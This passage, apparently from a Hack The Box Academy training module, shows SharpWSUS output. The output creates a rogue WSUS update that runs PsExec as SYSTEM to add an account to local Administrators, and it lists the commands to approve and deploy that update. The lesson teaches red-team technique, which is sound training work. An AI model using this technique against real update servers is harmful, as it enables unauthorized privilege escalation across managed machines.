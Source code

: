  ____  _                   __        ______  _   _ ____
/ ___|| |__   __ _ _ __ _ _\ \      / / ___|| | | / ___|
\___ \| '_ \ / _` | '__| '_ \ \ /\ / /\___ \| | | \___ \
 ___) | | | | (_| | |  | |_) \ V  V /  ___) | |_| |___) |
|____/|_| |_|\__,_|_|  | .__/ \_/\_/  |____/ \___/|____/
                       |_|
           Phil Keeble @ Nettitude Red Team

[*] Action: Create Update
[*] Creating patch to use the following:
[*] Payload: PSExec.exe
[*] Payload Path: C:\Tools\sysinternals\PSExec.exe
[*] Arguments: -accepteula -s -d cmd.exe /c 'net localgroup Administrators filiplain /add'
[*] Arguments (HTML Encoded): -accepteula -s -d cmd.exe /c &amp;amp;#39;net localgroup Administrators filiplain /add&amp;amp;#39;

################# WSUS Server Enumeration via SQL ##################
ServerName, WSUSPortNumber, WSUSContentLocation
-----------------------------------------------
WSUS, 8530, C:\WSUS\WsusContent

ImportUpdate
Update Revision ID: 101472
PrepareXMLtoClient
InjectURL2Download
DeploymentRevision
PrepareBundle
PrepareBundle Revision ID: 101473
PrepareXMLBundletoClient
DeploymentRevision

[*] Update created - When ready to deploy use the following command:
[*] SharpWSUS.exe approve /updateid:812772ce-0d8b-414b-823b-2cbc97d76126 /computername:Target.FQDN /groupname:"Group Name"

[*] To check on the update status use the following command:
[*] SharpWSUS.exe check /updateid:812772ce-0d8b-414b-823b-2cbc97d76126 /computername:Target.FQDN

[*] To delete the update use the following command:
[*] SharpWSUS.exe delete /updateid:812772ce-0d8b-414b-823b-2cbc97d76126 /computername:Target.FQDN /groupname:"Group Name"

[*] Create complete
</code></pre>
<div class="card bg-light">
<div class="card-body">
<p class="mb-0"><b>Note:</b> Make sure to use <code>PSExec64.exe</code> if targeting a 64bit computer.</p>
</div>
</div>
<p>The output above gave us three commands that we can execute to complete the Windows update process, which are approve, check and delete. We will use those commands later in this section.</p>
<p>To see the results of our command in the WSUS Service, we can open <code>Windows Server Update Service</code> application to identify if our update got added into the server.</p>
<p><img alt="text" src="https://academy.hackthebox.com/storage/modules/263/wsus_approve.png"/></p>
<p>Let's move into <code>Security Updates</code> and make sure that Approval is set to <code>Unapproved</code> and Status is <code>Any</code>, and we will see the update we created with <code>SharpWSUS</code> named <code>NewAccountUpdate</code>:</p>
<p><img alt="text" src="https://academy.hackthebox.com/storage/modules/263/wsus_securityupdate.png"/></p>
<div class="card bg-light">
<div class="card-body">
<p class="mb-0"><b>Note:</b> Local or remote access to the WSUS Server is required to perform this attack.</p>
</div>